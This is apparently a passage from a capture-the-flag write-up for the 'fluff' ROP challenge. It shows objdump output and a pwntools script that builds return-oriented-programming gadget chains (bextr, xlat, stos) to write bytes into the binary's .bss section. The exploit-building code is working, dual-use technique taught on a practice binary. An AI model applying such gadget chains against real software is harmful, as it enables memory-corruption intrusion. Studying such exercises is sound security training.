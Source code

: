```sh
objdump -h fluff
# Sections:
# Idx Name          Size      VMA               LMA               File off  Algn
#  23 .bss          00000008  0000000000601038  0000000000601038  00001038  2**0
#                   ALLOC
```

## Scripting

First, we write some helper functions for the individual gadgets to make our
work easier.

```python
#!/usr/bin/env python3
from pwn import *
context.bits = 64
context.arch = 'amd64'

DEBUG = True

process_name = './fluff'
elf = ELF(process_name)

if DEBUG:
    p = gdb.debug(process_name, '''
    display/s 0x00601038
    b *pwnme+89
    b *questionableGadgets+18
    ''')
else:
    p = process(process_name)

# keeps track of $AL's value
CURRENT_AL = 0xB

def set_rbx(val):
    bextr = 0x0040062a
    cntl = 0x4000 # copy all bytes (start at the 0th bit and copy up to 8 bits)
    src =  val - 0x3ef2
    # takes care of negative numbers
    rbx_str = p64(src) if src >= 0 else p64(struct.unpack('<Q', struct.pack('<q', src))[0])
    payload = p64(bextr) + p64(cntl) + rbx_str
    return payload

def set_rdi(val):
    payload = p64(0x004006a3) + p64(val)
    return payload

def copy_byte(ch, src, dst = 0):
    global CURRENT_AL
    xlat = 0x00400628
    stos = 0x00400639
    payload = set_rbx(src - CURRENT_AL) + p64(xlat)
    # $rdi is auto incremented, we only have to set it the first time
    # this is neat, as it also saves us some quad words, our entire payload
    # mustn't be bigger than 512 bytes!
    if dst != 0:
        payload += set_rdi(dst)
    payload += p64(stos)
    CURRENT_AL = ch # DON'T FORGET TO UPDATE $AL
    return payload

BSS = 0x00601038 # .bss
```